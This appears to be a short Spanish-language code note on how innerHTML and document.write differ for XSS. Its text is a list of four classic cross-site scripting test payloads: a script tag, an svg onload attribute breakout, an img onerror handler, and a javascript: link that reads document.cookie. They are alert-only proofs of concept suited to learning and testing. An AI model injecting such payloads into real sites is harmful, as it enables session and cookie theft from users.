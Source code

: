 // Diferencias entre innerHTML y document.write para XSS




<script>alert(1)</script>

"><svg onload=alert(1)>

<img src=1 onerror=alert(1)>

con href ==   javascript:alert(document.cookie)

